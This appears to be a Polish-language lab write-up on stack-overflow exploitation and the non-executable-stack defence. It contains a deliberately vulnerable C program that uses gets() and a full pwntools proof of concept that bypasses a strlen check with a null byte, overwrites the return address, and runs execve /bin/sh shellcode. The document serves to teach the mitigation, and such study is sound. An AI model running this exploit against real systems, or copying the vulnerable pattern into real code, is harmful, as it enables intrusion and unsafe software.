


# 1.Executable stack

### 1.1

`gcc` defaultowo włącza non-executable stack - można go wyłączyć flaga `-z execstack`.
Tak samo zachowuje się `clang`. Jest to argument przekazywany do linkera. Obecnie niektóre stare binarki linuxowe mogą wymagać wykonywalnego stacku dlatego ta opcja jest włączona. Wykonywalny stack jest pokonywany za pomocą oznaczenia pamięci stacku jako niewykonywalnej. Nie ma tu żadnego spadku wydajności, jedynie ewentualnie problemy z kompatybilnością ze starymi plikami.


### 1.2 Proof of concept
Pierwszym omówionym exploitem i obroną przed nim bedzie wykonywalny stack.

Kod programu, który bedzie exploitować jest następujący:

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    if(strlen(name) > 12) {
        puts("Nope, it's too long for me");
        exit(1);
    }
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
    return 0;
}
```

Błędem jest użyta tu funkcja `gets()` i pozornie działające sprawdzenie długości inputu.

Dokumentacja `strlen()` mówi, że funkcja sprawdza dlugość do otrzymania `x00`. Taki znak możemy dokleić, aby przepełnić bufor.

Używając pythona i pakietu pwntools postaram się wykorzystać ten błąd.

Schemat exploitacji jest następujący:

* ustalić miejsce w pamięci, w którym nadpisujemy adres powrotu
* ustalić miejsce w pamięci, w którym znajduje się bufor
* nadpisać adres powrotu adresem bufora, w którym znajduje się nasz kod.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15
```

Exploit omija sprawdzenie. Następnie za pomocą gdb ustaliłem, w którym miejscu można nadpisać adres powrotu oraz adres, w którym zaczyna się bufor (Adres został wyjęty z gdb).

```python
name += "\x20\xd2\xff\xff"
```

W tym momencie wystarczy do stringa name dokleić shellcode wywołujący execve i odpowiednimi parametrami. Shellcode ten zaczerpnałem ze strony `http://shell-storm.org/shellcode/files/shellcode-811.php`.

```python
name += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Cały exploit wygląda następująco:

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15 # inject aaaas till eip
name += "\x20\xd2\xff\xff" # inject address of shellcode to eip
name += "\x31\xc0\x50\x68\x2f\x2f\x73"+"\x68\x68\x2f\x62\x69\x6e\x89"+"\xe3\x89\xc1\x89\xc2\xb0\x0b"+"\xcd\x80\x31\xc0\x40\xcd\x80" #shellcode to spawn shell

p.sendline(name)

p.interactive()

```


Exploit działa na programie skompilowanym z wykonywalnym stackiem.



Natomiast skompilowany bez flagi pozwalającej na wykonywanie kodu na stacku nie działa.


